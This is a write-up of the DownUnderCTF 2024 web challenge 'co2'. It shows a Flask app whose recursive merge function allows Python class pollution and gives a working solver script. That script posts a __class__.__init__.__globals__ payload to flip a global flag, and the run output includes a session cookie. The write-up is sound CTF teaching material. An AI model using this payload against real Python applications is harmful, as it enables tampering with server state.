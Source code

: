 # DownUnderCTF 2024
## Web - co2 - easy
![Alt Text](./DownUnderCTF_Pic.png)

## First look
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.
Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution


## Exploit
In the CTF I did manually with burp and just intercept the request and inject it there the code, but after the CTF ends I wrote a solver script with the steps of the exploit.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

## Take the flag
And we got the flag!
```sh
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
